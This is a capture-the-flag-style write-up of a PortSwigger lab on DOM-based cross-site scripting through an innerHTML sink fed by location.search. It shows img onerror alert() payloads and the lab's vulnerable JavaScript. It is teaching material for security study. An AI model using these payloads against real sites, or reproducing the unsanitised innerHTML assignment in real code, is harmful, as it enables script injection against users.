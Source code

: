```yaml
---
title: LAB 0.5
aliases:
  - LAB 0.5
tags:
  - XSS
  - Labs
  - DOM-Based
  - Apprentice
description: "Lab: DOM XSS in innerHTML sink using source location.search"
---
```

# Lab: DOM XSS in `innerHTML` sink using source `location.search`.
---
[LAB](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)

This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a `div` elem
![[images/Pasted image 20241229130358.png]]

# Solution
---

## Getting Started

When you open the lab, you’ll see a simple blog page with a search bar. To begin, enter a random string into the search bar. Eg. `test`

![[images/Pasted image 20241229142953.png]]

Next, right-click on the search result and select **Inspect** from the context menu. This will open your browser's DOM inspector. If your query isn’t already highlighted, use the DOM search bar to locate it.

![[images/Pasted image 20241229143117.png]]

You’ll notice that your query is enclosed in its own `<span>` element, just as you typed it:

```html
<span id="searchMessage">test</span>
```

---

## Understanding `innerHTML` and `outerHTML`

Before we proceed, let’s briefly discuss `innerHTML` and `outerHTML`. If you’re already familiar with these concepts, feel free to skip ahead.

In the DOM inspector, right-click on an `<h1>` element, go to **Copy**, and choose either **Copy innerHTML** or **Copy outerHTML**. Here’s what happens when you copy `innerHTML`:

```html
<span>0 search results for '</span><span id="searchMessage">test</span><span>'</span>
```

If you chose `outerHTML`, it would include the `<h1>` tags as well. The lab description’s reference to an “innerHTML assignment” simply means that the `innerHTML` property is being used to dynamically insert content - content that could include HTML, making it a potential security risk.

---

## Crafting the Payload

Let’s build on what we learned in the previous DOM XSS lab, [[LAB 0.3]]. This time, I decided to modify the payload slightly. By removing the first two characters (`">`), we can simplify it:

**Original Payload:**

```html
"><img src=x onerror=alert(1)>
```

**New Payload:**

```html
<img src=x onerror=alert(1)>
```

This makes sense because our search query is already nested between tags (`…>test<…`). There’s no need to break out of anything.

Here’s what the payload looks like when inserted:

```html
<span id="searchMessage"><img src=x onerror=alert(1)></span>
```

Now, enter the shortened payload into the search bar, and voila!

![[images/Pasted image 20241229143736.png]]

---

## Lab Breakdown

Here’s the HTML and JavaScript in action:

```html
<h1>
    <span>0 search results for '</span>
    <span id="searchMessage">
        <img src="x" onerror="alert('MardukWasHere')">
    </span>
    <span>'</span>
</h1>
<script>
    function doSearchQuery(query) {
        document.getElementById('searchMessage').innerHTML = query;
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if (query) {
        doSearchQuery(query);
    }
</script>
<hr>
```

The `innerHTML` assignment dynamically injects our malicious payload, triggering the `alert` function.

---

And that’s it! Another lab solved. Congrats! 🎉
